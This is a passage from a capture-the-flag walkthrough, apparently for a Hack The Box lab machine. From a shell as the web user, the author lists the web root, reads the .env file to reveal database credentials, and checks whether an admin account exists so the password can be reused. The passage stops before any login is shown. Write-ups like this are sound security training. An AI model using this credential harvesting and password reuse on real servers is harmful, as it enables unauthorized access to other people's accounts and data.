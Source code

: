 **Reminder:** *Which file is commonly used in PHP applications to store environment variable values?*

Let's see what's in the current directory:

```bash
(remote) www-data@2million:/var/www/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Aug 11 09:30 .
drwxr-xr-x 3 root root 4096 Aug 11 06:41 ..
-rw-r--r-- 1 root root 87 Jun 2 2023 .env
-rw-r--r-- 1 root root 1237 Jun 2 2023 Database.php
-rw-r--r-- 1 root root 2787 Jun 2 2023 Router.php
drwxr-xr-x 5 root root 4096 Aug 11 09:30 VPN
drwxr-xr-x 2 root root 4096 Jun 6 2023 assets
drwxr-xr-x 2 root root 4096 Jun 6 2023 controllers
drwxr-xr-x 5 root root 4096 Jun 6 2023 css
drwxr-xr-x 2 root root 4096 Jun 6 2023 fonts
drwxr-xr-x 2 root root 4096 Jun 6 2023 images
-rw-r--r-- 1 root root 2692 Jun 2 2023 index.php
drwxr-xr-x 3 root root 4096 Jun 6 2023 js
drwxr-xr-x 2 root root 4096 Jun 6 2023 views
```

A `.env` file seems to be available; this type of file is very sensitive as it can contain API connection information, credentials, etc.

**Answer:** `.env`

## Q10 - User Flag

**Reminder:** *Submit the flag located in the admin user's home directory.*

This is perfect for us! Let's take a look:

```bash
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Very interesting! Database connection information is stored here.

Let's check if the `admin` user is available on the system:

```bash
(remote) www-data@2million:/var/www/html$ ls -la /home/
total 12
drwxr-xr-x 3 root root 4096 Jun 6 2023 .
drwxr-xr-x 19 root root 4096 Jun 6 2023 ..
drwxr-xr-x 4 admin admin 4096 Jun 6 2023 admin
```

Perfect, apparently the `admin` user is available. If they use the same password as the database, we can log in as this user!
